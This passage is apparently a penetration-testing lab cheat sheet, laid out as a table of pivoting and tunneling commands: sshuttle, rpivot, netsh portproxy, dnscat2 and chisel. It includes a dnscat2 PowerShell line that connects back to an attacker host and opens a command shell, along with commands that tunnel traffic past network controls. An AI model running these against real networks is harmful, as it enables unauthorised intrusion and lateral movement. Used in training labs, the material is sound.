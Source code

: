 | `sudo apt-get install sshuttle`                              | Installs `sshuttle` (VPN‑like transparent proxy over SSH).                                                                                                                                             |
| `sudo sshuttle -r ubuntu@10.129.202.64 172.16.5.0/24 -v`      | Routes all 172.16.5.0/24 traffic through the SSH server at 10.129.202.64 with verbose logging.                                                                                                        |
| `sudo git clone https://github.com/klsecservices/rpivot.git` | Clones the `rpivot` repository.                                                                                                                                                                       |
| `sudo apt-get install python2.7`                             | Installs Python 2.7.                                                                                                                                                                                  |
| `python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0` | Launches the rpivot server on SOCKS port 9050, HTTP port 9999, listening on all interfaces.                                                                                                            |
| `scp -r rpivot ubuntu@<IPaddressofTarget>:~`                 | Recursively copies the `rpivot` directory to the target’s home folder.                                                                                                                                 |
| `python2.7 client.py --server-ip 10.10.14.18 --server-port 9999` | Runs the rpivot client, connecting to your rpivot server.                                                                                                                                            |
| `proxychains firefox-esr <IPaddressofTargetWebServer>:80`    | Launches Firefox ESR with all traffic through your SOCKS proxy.                                                                                                                                       |
| `python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <WindowsDomain> --username <username> --password <password>` | Runs rpivot client against an NTLM‑authenticating HTTP proxy.                                                                             |
| `netsh interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.42.198 connectport=3389 connectaddress=172.16.5.25` | Windows netsh rule to forward local port 8080 to 172.16.5.25:3389.                                                                                                                                     |
| `netsh interface portproxy show v4tov4`                     | Displays the configuration for the `v4tov4` portproxy rule.                                                                                                                                            |
| `git clone https://github.com/iagox86/dnscat2.git`           | Clones the `dnscat2` DNS‑tunneling tool.                                                                                                                                                              |
| `sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache` | Starts the dnscat2 server on port 53 for the `inlanefreight.local` domain without DNS caching.                                                                                                         |
| `git clone https://github.com/lukebaggett/dnscat2-powershell.git` | Clones the PowerShell client for dnscat2.                                                                                                                                                             |
| `Import-Module dnscat2.ps1`                                  | Loads the dnscat2 PowerShell module.                                                                                                                                                                  |
| `Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd` | Connects the PowerShell client back to your dnscat2 server and opens a command shell.                                                                                                                 |
| `dnscat2> ?`                                                 | Lists available dnscat2 commands.                                                                                                                                                                     |
| `dnscat2> window -i 1`                                       | Interacts with dnscat2 session window 1.                                                                                                                                                              |
| `./chisel server -v -p 1234 --socks5`                        | Starts a Chisel server in verbose mode on port 1234 with SOCKS5 support.                                                                                                                              |
| `./chisel client -v 10.129.202.64:1234 socks`                | Connects a Chisel client to your server at 10.129.202.64:1234 over SOCKS.                                                                                                                              |
| `git clone https://github.com/utoni/ptunnel-ng.git`          | Clones the ptunnel‑ng repository.                                                                                                                                                                     |